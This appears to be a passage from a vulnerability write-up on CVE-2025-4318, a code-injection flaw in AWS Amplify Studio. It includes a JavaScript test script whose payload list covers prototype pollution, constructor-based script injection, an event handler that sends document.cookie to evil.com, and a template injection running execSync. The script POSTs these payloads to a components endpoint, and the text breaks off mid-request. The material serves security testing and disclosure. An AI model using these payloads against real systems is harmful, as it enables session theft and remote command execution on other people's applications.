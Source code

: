 ### Description
Input validation vulnerability in AWS Amplify Studio allowing attackers to inject malicious JavaScript code during component rendering.

### Attack Vector
- Malicious code in component properties
- Prototype pollution attacks
- XSS through component generation

### Testing Methodology
```javascript
// cve_2025_4318_test.js
// Test for Amplify Studio code injection vulnerability

const payloads = [
    // Prototype pollution
    {
        "__proto__": {
            "isAdmin": true,
            "constructor": {
                "prototype": {
                    "isAdmin": true
                }
            }
        }
    },
    
    // Component property injection
    {
        "componentType": "Text",
        "properties": {
            "text": "{{constructor.constructor('alert(1)')()}}"
        }
    },
    
    // Event handler injection
    {
        "events": {
            "onClick": "javascript:eval('fetch(`https://evil.com?c=${document.cookie}`)')"
        }
    },
    
    // Template literal injection
    {
        "bindingProperties": {
            "field": {
                "type": "String",
                "defaultValue": "${process.mainModule.require('child_process').execSync('id')}"
            }
        }
    }
];

function testAmplifyStudioInjection(apiEndpoint, authToken) {
    console.log("[*] Testing CVE-2025-4318 - Amplify Studio Code Injection");
    
    payloads.forEach((payload, index) => {
        console.log(`[*] Testing payload ${index + 1}...`);
        
        fetch(`${apiEndpoint}/components`, {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
```